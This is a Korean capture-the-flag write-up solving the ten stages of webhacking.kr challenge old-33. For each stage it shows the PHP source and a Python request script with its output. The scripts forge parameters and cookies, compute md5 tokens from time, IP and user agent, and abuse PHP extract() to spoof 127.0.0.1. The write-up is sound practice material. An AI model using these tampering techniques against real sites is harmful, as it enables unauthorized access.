


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-1<br>
<a href=index.txt>view-source</a>
<hr>
<?php
if($_GET['get']=="hehe") echo "<a href=???>Next</a>";
else echo("Wrong");
?>
```

get에 hehe를 전달하였더니 다음 문제가 나온다.


다시 view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-2<br>
<a href=lv2.txt>view-source</a>
<hr>
<?php
if($_POST['post']=="hehe" && $_POST['post2']=="hehe2") echo "<a href=???>Next</a>";
else echo "Wrong";
?>
```

POST method로 필요한 데이터를 전달하면 다음 문제가 나온다.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6/lv2.php'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
data        = urllib.parse.urlencode({'post':'hehe', 'post2':'hehe2'}).encode()
request     = urllib.request.Request(url=CHALLENGE, headers=headers, data=data)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-2<br>
<a href=lv2.txt>view-source</a>
<hr>
<a href=33.php>Next</a>
```

다시 view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-3<br>
<a href=33.txt>view-source</a>
<hr>
<?php
if($_GET['myip'] == $_SERVER['REMOTE_ADDR']) echo "<a href=???>Next</a>";
else echo "Wrong";
?>
```

myip에 공인 IP 주소를 넣어 전달하면 또 문제가 나온다.



다시 view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-4<br>
<a href=l4.txt>view-source</a>
<hr>
<?php
if($_GET['password'] == md5(time())) echo "<a href=???>Next</a>";
else echo "hint : ".time();
?>
```

시간을 가지고 장난질을 친다. 먼저 싱크가 맞는 지 본다.

```
import urllib.request
import time
import math


CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6/l4.php'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
request     = urllib.request.Request(url=CHALLENGE, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())
print(math.trunc(time.time()))

[Output]
<hr>
Challenge 33-4<br>
<a href=l4.txt>view-source</a>
<hr>
hint : 1636092159
1636092159
```

몇 번의 테스트로 돌려 봤을 때, 내 기준 +1값을 해줘야 인증이 되었다.

```python
import urllib.request
import time
import math
import hashlib

time_value  = str(math.trunc(time.time()) + 1)
password    = hashlib.md5(time_value.encode()).hexdigest()
CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6/l4.php?password='+password
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
request     = urllib.request.Request(url=CHALLENGE, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-4<br>
<a href=l4.txt>view-source</a>
<hr>
<a href=md555.php>Next</a>
```

또 다음 문제이다. 다시 view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-5<br>
<a href=md555.txt>view-source</a>
<hr>
<?php
if($_GET['imget'] && $_POST['impost'] && $_COOKIE['imcookie']) echo "<a href=???>Next</a>";
else echo "Wrong";
?>
```

조건에 부합하는 데이터를 보내자.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID+';imcookie=very'}
data        = urllib.parse.urlencode({'impost':'challenge'}).encode()
url         = CHALLENGE + '/md555.php?imget=dirty'
request     = urllib.request.Request(url=url, headers=headers, data=data)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-5<br>
<a href=md555.txt>view-source</a>
<hr>
<a href=gpcc.php>Next</a>
```

또 다음 문제이다. 다시 view-source를 클릭하여 소스를 확인하자.

```php
<hr>
Challenge 33-6<br>
<a href=gpcc.txt>view-source</a>
<hr>
<?php
if($_COOKIE['test'] == md5($_SERVER['REMOTE_ADDR']) && $_POST['kk'] == md5($_SERVER['HTTP_USER_AGENT'])) echo "<a href=???>Next</a>";
else echo "hint : {$_SERVER['HTTP_USER_AGENT']}";
?>
```

스크립트 작성

```python
import urllib.request
import hashlib

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID+';test='+hashlib.md5('1.220.188.91'.encode()).hexdigest(), 'User-Agent':'very_dirty_challenge'}
data        = urllib.parse.urlencode({'kk':hashlib.md5('very_dirty_challenge'.encode()).hexdigest()}).encode()
url         = CHALLENGE + '/gpcc.php'
request     = urllib.request.Request(url=url, headers=headers, data=data)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-6<br>
<a href=gpcc.txt>view-source</a>
<hr>
<a href=wtff.php>Next</a>
 view-source

<hr>
Challenge 33-7<br>
<a href=wtff.txt>view-source</a>
<hr>
<?php
$_SERVER['REMOTE_ADDR'] = str_replace(".","",$_SERVER['REMOTE_ADDR']);
if($_GET[$_SERVER['REMOTE_ADDR']] == $_SERVER['REMOTE_ADDR']) echo "<a href=???>Next</a>";
else echo "Wrong<br>".$_GET[$_SERVER['REMOTE_ADDR']];
?>
```

스크립트 작성

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
url         = CHALLENGE + '/wtff.php?'+'1.220.188.91'.replace('.','')+'='+'1.220.188.91'.replace('.','')
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-7<br>
<a href=wtff.txt>view-source</a>
<hr>
<a href=ipt.php>Next</a>
view-source

<hr>
Challenge 33-8<br>
<a href=ipt.txt>view-source</a>
<hr>
<?php
extract($_GET);
if(!$_GET['addr']) $addr = $_SERVER['REMOTE_ADDR'];
if($addr == "127.0.0.1") echo "<a href=???>Next</a>";
else echo "Wrong";
?>
```

스크립트 작성

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
url         = CHALLENGE + '/ipt.php?addr=127.0.0.1'
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-8<br>
<a href=ipt.txt>view-source</a>
<hr>
<a href=nextt.php>Next</a>
view-source

<hr>
Challenge 33-9<br>
<a href=nextt.txt>view-source</a>
<hr>
<?php
for($i=97;$i<=122;$i=$i+2){
  $answer.=chr($i);
}
if($_GET['ans'] == $answer) echo "<a href=???.php>Next</a>";
else echo "Wrong";
?>
```

스크립트 작성

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

answer = ''
for i in range(97, 123, 2): answer += chr(i)

url         = CHALLENGE + '/nextt.php?ans='+answer
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<hr>
Challenge 33-9<br>
<a href=nextt.txt>view-source</a>
<hr>
<a href=forfor.php>Next</a>
```

마지막 문제이다. view-source를 클릭하자.

```php
<hr>
Challenge 33-10<br>
<a href=forfor.txt>view-source</a>
<hr>
<?php
$ip = $_SERVER['REMOTE_ADDR'];
for($i=0;$i<=strlen($ip);$i++) $ip=str_replace($i,ord($i),$ip);
$ip=str_replace(".","",$ip);
$ip=substr($ip,0,10);
$answer = $ip*2;
$answer = $ip/2;
$answer = str_replace(".","",$answer);
$f=fopen("answerip/{$answer}_{$ip}.php","w");
fwrite($f,"<?php include \"../../../config.php\"; solve(33); unlink(__FILE__); ?>");
fclose($f);
?>
```

스크립트를 작성하고 실행시켜 점수를 획득하자.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-6'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

ip      = '1.220.188.91'
i       = 0;
while True:
    ip = ip.replace(str(i), str(ord(str(i)[0])))
    i += 1
    ip_len = len(ip)
    if i > ip_len: break

ip      = ip.replace(".","")
ip      = int(ip[:10])
answer  = ip*2
answer  = ip/2
answer  = str(answer).replace(".","")

url         = CHALLENGE + '/answerip/'+answer+"_"+str(ip)+".php"
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<script>alert('old-33 Pwned!');</script><hr>old-33 Pwned. You got 20point. Congratz!<hr>
```